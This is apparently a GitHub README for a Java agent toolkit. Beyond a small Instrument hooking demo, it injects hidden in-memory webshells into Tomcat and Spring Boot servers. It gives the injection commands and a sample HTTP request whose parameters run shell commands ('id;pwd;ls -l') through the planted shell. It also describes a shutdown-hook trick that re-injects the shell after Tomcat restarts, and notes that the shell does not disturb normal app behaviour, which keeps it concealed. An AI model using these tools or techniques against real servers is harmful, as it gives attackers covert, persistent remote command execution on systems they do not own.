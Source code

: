 # JavaInstrument

## 1、A demo that uses Java Instrument.

The release stuff is in directory `hook-test`.

Usage:
 - step 1: Enter command as below in a terminal
```shell
java -jar TargetApp.jar
```
- step 2: Enter command as below in another terminal
```shell
java -jar AgentDemoStarted.jar
```
- step 3: Observe it in the first terminal.

![](images/1.gif)



## 2、An Agent-Type and eternal memshell for Tomcat

The release stuff is in directory `tomcat-agentmemshell-test`

Test environment: SpringMVC 5.2.0 + Tomcat 8.5.39

Usage:
 - step 1: Put your webapp(`xxx.war`) into `webapps` directory of Tomcat, and start up the Tomcat Server.
 - step 2: enter command as below.
```shell
java -jar AgentTomcatMemShellInject.jar <webshell-password>
```
 - step 3: To access the memshell, you can access an existing url or a not existing url with several specified parameters, 
   `pwd`,`model`,`scode`. Just like as below:
   ```
   POST /test/index HTTP/1.1
   Host: 127.0.0.1:8888
   Pragma: no-cache
   Cache-Control: no-cache
   DNT: 1
   Upgrade-Insecure-Requests: 1
   User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
   Cookie: JSESSIONID=BA296256CC1B51094A14795C62EF96B2; JSESSIONID=ECA0C078C7F6014BD41004139F5563EF; _dd_s=logs=1&id=1653c1be-a457-4604-938f-2abb59b78950&created=1649118027934&expire=1649120037627
   Connection: close
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 38

   pwd=m01e&model=exec&scode=id;pwd;ls+-l
   ```
   
   You'll see there is no effect on existing logic when you don't add 
   the specified paremeters.
   
   
Worth mentioning that this memshell is eternal even if Tomcat server restarted.
Because the JVM **ShutdownHook** of Tomcat process is set. If you want to stop 
it from injecting again, you should kill the process `AgentTomcatMemShellInject.jar` 
before Tomcat restarting.

![](images/2.gif)

## 3、An Agent-Type memshell for Springboot.

The release stuff is in directory `springboot-agentmemshell-test`

Test environment: Springboot 2.6.0

Usage:
- step 1: Start your Springboot app(`.jar`) with command `java -jar xxx.jar`.
- step 2: Access an existing url or a not existing url without any parameter.  
- step 3: Enter command as below.
```shell
java -jar AgentSpringbootMemShellInject.jar <webshell-password> <target-springboot-app-jar-name-without-suffix>

# e.g
java -jar AgentSpringbootMemShellInject.jar m01e springboot-controller-memshell-0.0.1-SNAPSHOT
```
- step 4: Access an existing url or a not existing url with several specified parameters,
  `pwd`,`model`,`scode`.

Similarly, there is no effect on existing logic when you don't add
the specified paremeters.

![](images/3.gif)

But I can't make this memshell eternal when the Springboot app process restarted.
Because when the agent is attached into Springboot app, I have no idea how to obtain the Tomcat port in the `agentmain()` method.

## Reference：
Inspired by rebeyond: <br>
[1] https://www.cnblogs.com/rebeyond/p/9686213.html <br>
[2] https://github.com/rebeyond/memShell


# Note
Just for learning and research only, and don't use for illegal purposes.